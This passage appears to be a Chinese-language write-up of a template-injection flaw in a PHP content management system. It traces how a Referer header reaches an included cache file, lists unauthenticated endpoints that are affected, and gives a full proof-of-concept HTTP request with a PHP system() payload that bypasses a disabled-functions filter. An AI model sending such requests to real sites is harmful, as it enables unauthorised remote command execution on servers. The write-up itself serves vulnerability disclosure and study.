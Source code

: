 ```
                        return false;
                    }
                }
            }
        }
        return true;
    }
```

GetResult() 方法执行后返回的结果通过 CheckDisabledFunctions() 方法过滤后 经过Display() 的 `include $this->cacheFile;`

```
public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache();
        include $this->cacheFile;
    }
```

此时我们就可以通过控制 Referer请求头，来控制模版的渲染，绕过 CheckDisabledFunctions)方法的过滤 造成远程命令执行

![](./images/202205181453931.png)

通过正则找到受影响且无需身份认证的文件，来进行命令执行

```
/plus/flink.php?dopost=save
/plus/users_products.php?oid=1337
/plus/download.php?aid=1337
/plus/showphoto.php?aid=1337
/plus/users-do.php?fmdo=sendMail
/plus/posttocar.php?id=1337
/plus/vote.php?dopost=view
/plus/carbuyaction.php?do=clickout
/plus/recommend.php
........
```

![image-20220518145405375](./images/202205181454424.png)

这里利用没有过滤的双引号绕过 disables 禁止的函数

![image-20220518145425771](./images/202205181454853.png)

漏洞请求包

```
GET /plus/flink.php?dopost=save HTTP/1.1
Host:
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: <?php "system"(ls);?>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```